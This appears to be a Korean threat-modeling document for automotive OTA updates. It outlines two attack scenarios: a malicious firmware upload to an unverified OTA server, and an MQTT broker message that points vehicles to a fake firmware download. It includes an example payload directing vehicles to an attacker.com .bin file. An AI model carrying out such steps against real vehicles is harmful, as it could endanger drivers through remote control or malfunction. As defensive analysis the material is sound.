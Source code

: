 # 1. Supply Chain Attack

## 공격 시나리오 1: 정식 OTA 파일 업로드 웹페이지를 통해 악성 코드 업데이트 [Level 1]

### 공격 시나리오 전제 조건

- 파일을 업로드하는 웹사이트의 URL IP 주소값(혹은 도메인)을 공격자가 획득한 것으로 가정한다.
- OTA 서버에 업로드된 파일을 검증하는 무결성 검사, 서명 확인 절차가 존재하지 않는다.
- OTA 서버에서 업로드된 파일은 인증되지 않은 차량에게도 배포 가능한 구조라고 가정한다.
- 프록시 서버는 이미 공격자가 장악한 상태로 트래픽 감시랑 변조가 가능하다.
- OTA 업데이트 파일이 차량의 통신 모듈로 전송될 때의 IP 주소를 알려주는 응답을 가로챌 수 있고, 재지정이 가능하다.

### 공격 시나리오 수행 방법

#### 1단계(가정): 정상 OTA 서버에 파일 업로드
- 공격자는 차량 ECU에 악성 동작을 유발할 수 있는 .bin 확장자의 악성 펌웨어 파일을 사전 생성한다.
- OTA 서버는 업로드된 펌웨어 파일을 업데이트 대상 리스트에 자동 등록한다.
- 업데이트가 되었다는 공지를 한다.
  
#### 2단계: 차량 통신 모듈이 OTA 서버에 요청 전송
- OTA 대상 차량은 ota.com를 통해 OTA 공지 및 파일을 확인한다.
- OTA 서버는 정상처럼 보이는 응답을 반환하고, 공격자가 업로드한 악성 OTA 파일의 경로를 함께 전달한다.
- OTA 통신은 암호화나 서버 인증 없이 이루어지고 있다고 가정한다.

#### 3단계: 차량이 악성 OTA 파일 다운로드
- 차량의 통신 모듈은 OTA 서버로부터 응답받은 경로에 접근해 악성 .bin 파일을 그대로 다운로드한다.
- 이 파일은 헤더/버전/파일 구조가 정상 파일과 유사하여 차량은 이를 정상 업데이트 파일로 인식한다.

#### 4단계: ECU가 악성 OTA 파일 설치
- 차량 통신 모듈은 해당 파일을 각 ECU에 배포하고 ECU는 디지털 서명 검증이나 버전 비교 없이 그대로 설치한다.

1. 공격자는 타겟 ECU에 주입할 악성 펌웨어/소프트웨어에 해당하는 .bin 파일을 생성한다.
2. OTA 파일을 업로드하는 정식 웹사이트를 통해 .bin 파일을 업로드한다.
3. 인증이 없는 차량은 해당 악성 파일을 설치한다.

---

## 공격 시나리오 2: MQTT broker에 악성 코드 혹은 URL publishing [Level 1]

### 공격 시나리오 전제 조건

- 공격자는 인증된 차량을 해킹하여 OEM에서 사용하는 MQTT Broker 주소(IP)를 확보한 상태로 가정한다.
- MQTT 서버는 topic 권한 검증 또는 payload 필터링 기능이 없는 상태로 운영된다.

### 공격 시나리오 수행 방법

#### 1단계: 공격자가 MQTT Broker에 악성 데이터 publish
- 공격자는 악성 OTA 파일을 직접 보내는 것이 아니라 OTA 파일을 다운받을 수 있는 URL을 특정 topic에 publish한다.
    예: `{"ota_url": "http://attacker.com/fake.bin"}`
  
#### 2단계: Broker가 전체 차량에게 메시지 broadcast
- MQTT Broker는 해당 topic을 구독하고 있는 모든 차량에 해당 데이터를 broadcast한다.
- OTA 관련 topic(`ota/update/announce`)에 대한 인증이나 무결성 검증이 생략된다.
  
#### 3단계: 차량이 악성 URL의 OTA 파일을 다운로드
- 차량 통신 모듈은 수신된 메시지에 포함된 URL로 접근한다.
- 정상으로 위장된 악성 OTA 파일을 다운로드한다.
- 이때 공격자는 Flask 기반 가짜 OTA 서버를 운영중이다.

#### 4단계: 차량이 악성 OTA 파일 설치
- 차량은 받은 파일을 정상 OTA 파일로 오인하고 각 ECU에 배포한다.
- ECU는 무결성 검증 없이 설치를 진행하며 악성 명령이 실행되어 원격 제어나 시스템 오작동이 발생할 수 있다.
---
